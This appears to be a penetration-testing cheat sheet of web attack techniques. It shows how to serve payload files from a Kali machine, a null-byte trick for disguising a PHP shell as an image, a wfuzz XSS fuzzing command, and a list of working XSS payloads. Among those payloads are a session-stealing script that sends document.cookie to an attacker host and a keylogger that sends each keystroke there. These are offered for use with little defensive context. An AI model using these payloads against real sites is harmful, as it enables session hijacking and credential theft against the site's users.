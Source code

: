 # Vulnerabilities
Testing vulnerabilities
-----------------------

### Serve files from Kali

1.  Create folder `mkdir payloads`
2.  Add files to folder that you want to serve to target machine
3.  `cd` to the created folder
4.  Execute command to start serving the files:

```bash
python3 -m http.server 80
```

### Null Byte

```text-plain
A null byte or %00 calls for early termination of a string. Where a file such as shell.php%00.pngwill execute as shell.php but will be read as a .png file since this is technically what the file name ends in.
```

### XSS

```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

### XSS Payloads

```HTML
# Standard XSS Payload
<script>alert('XSS');</script>

# Input tag escape
"><script>alert('XSS');</script>

# Escape textarea tag
</textarea><script>alert('XSS');</script>

# Escape Javascript code
';alert('XSS');//

# Bypass filters that strip out malicious words such like "script"
<sscriptcript>alert('XSS');</sscriptcript>

# Session stealing via Fetch
<script>fetch('http://KALIIP/steal?cookie=' + btoa(document.cookie));</script>

# Keylogger
<script>document.onkeypress = function(e) { fetch('http://KALIIP/log?key=' + btoa(e.key) );}</script>

# Polygot payload (Can bypass multiple filters)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS)//>\x3e
```
